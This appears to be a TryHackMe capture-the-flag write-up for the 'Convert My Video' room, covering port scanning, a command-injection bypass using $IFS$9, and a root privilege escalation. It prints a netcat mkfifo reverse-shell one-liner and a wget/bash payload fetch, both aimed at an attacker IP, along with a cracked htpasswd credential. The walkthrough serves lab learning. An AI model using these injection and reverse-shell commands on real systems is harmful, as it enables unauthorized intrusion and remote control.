 ```yaml
---
layout: post
title: THM Convert My Video writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/Convertmyvideo/0.head.png">
<!--more--> 
<p></p>
<a href="https://tryhackme.com/room/res" target="_blank" > Click here to access this box on tryHackMe.com</a>
<hr>


<p> Strat by enumerating  ports with a basic NMAP Scan.</p>
<p>Below we see that ports 22 and 80 are open. Let’s enumerate them further</p>
<img src="/img/Convertmyvideo/1.nmap-scan.png">

<p>We can see that ports 22 is running openSSH ver 7.6p1 and port 80 is running Apache 2.4.29. Next let’s use namp to scan all 65k ports. </p>
<img src="/img/Convertmyvideo/2.namp-scan-2.png">

<p>This will take awhile so while we wait let’s navigate over to port 80 in a web browser. </p>
<img src="/img/Convertmyvideo/3.namp-scan.png">

<p>There’s a simple page with a text box and a button that says convert. My first thought is to check the source code and use gobuster to find any hidden directories. First let start up gobuster.</p>
<img src="/img/Convertmyvideo/4.index-page.png">

<p>With gobuster I’m going to search for any files with a .txt,.php and .mp3 extension because of the clues on site. While that’s running let’s check source code and check back in on the nmap scan </p>
<img src="/img/Convertmyvideo/5.gobuster-start.png">

<p>Namp only shows ports 22 and 80 open. Next i’m going to review the websites source code.</p>
<img src="/img/Convertmyvideo/6.nmap-scan3.png">

<p>After spending some time  hours fuzzing the input I intercepted  the post request in burp suite and tried some basic command line injections.  I was able to successfully get a response back from the server by encapsulating the id command with backtick ( `id` ) not to be confused with single quotes (‘id’). Below is the output from the injection command in burp suite </p>
<img src="/img/Convertmyvideo/7.comand-line-injection.png">

<p>Something I struggled with for a bit was the command injection. It would not accept a space or tab so I could issue the command ‘ls’ but ‘ls -la’ would fail. I tried things like URL encoding the space (%20) `ls%20-ls`, but that didn;t work either. I needed to find an alternate argument separator. What ultimately ended up working was $IFS$9. The $IFS is an environmental variable  which is space by default. Additionally we add $9, which is just a holder of the ninth argument of the current system shell process (which is always an empty string). </p>
<img src="/img/Convertmyvideo/8.fuzzed-injection.png">

<p>Let’s see if we can get a nc reverse shell to call back to us. First we setup our listener on our local machine.</p>
<img src="/img/Convertmyvideo/9.nc-listen.png">

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.3.153 4444 >/tmp/f
`wget${IFS}10.13.3.153:7777/nc-revshell-oneline`
`bash${IFS}nc-revshell-oneline`
python -c 'import pty; pty.spawn("/bin/bash")'

itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/ = jessie

/var/www/html/admin/.htpasswd  

<p>Let’s try and upload a reverse shell file using php.</p>
<p>here is the php code I’m going to attempt to upload</p>
<img src="/img/Convertmyvideo/10.rev-shell-code.png">

<p>Now let's host this file on our local machine</p>
<img src="/img/Convertmyvideo/11.python-server.png">

<p>Back to burp suite let’s issue a wget to download the file to the victim machine</p>
<img src="/img/Convertmyvideo/12.wget-from-burp.png">

<p>Now when I tried to call the reverse shell code by abusing the command line injection command in burp suite (`./name-of-my-file’) it wouldn’t work.I’m assuming the period (.) in the command was causing the issue. What ultimately work was calling `bash${IFS}name-of-uploded-shell-code`</p>
<p> Below I setup a listener on my local machine </p> 
<p> And then issue the command line injection payload in burp suite</p>
<img src="/img/Convertmyvideo/13.lister-4444.png">
<img src="/img/Convertmyvideo/14.burp-command-calling-the-nc-file.png">

<p>Now we have a shell as www-data. Let’s cat the user flag and begin our enumeration for privesc.</p>
<img src="/img/Convertmyvideo/15.user-flag.png">

<p>Just poking around in the filesystem, I found a file name clean.sh. When I read out this file it just removed everything in the downloads folder. Although it doesn't show  cron job  was calling this - it seemed suspect. I thought I’d give it a shot while I kept enumerating, just in case. Since www-data was the owner of the file I changed the mode to 777 so I could modify this file  and change the bash command from ‘rm -fr downloads’ to the reverse shell one liner I used earlier - but with a different port. </p>
<img src="/img/Convertmyvideo/16.clean.sh-code.png">


<p>I’m not sure if it was just luck but almost instantly after setting up my nc listener on my local machine I got a call back and it was running as the root user.</p>
<img src="/img/Convertmyvideo/17.root.txt.png">

<p>This box took me a lot longer than expected. I spent about 4 hours on the initial shell, but I think I may have lucked out on the privesc. Overall, I enjoyed the box and learned something new along the way. Kudos to the creator,  </p> 
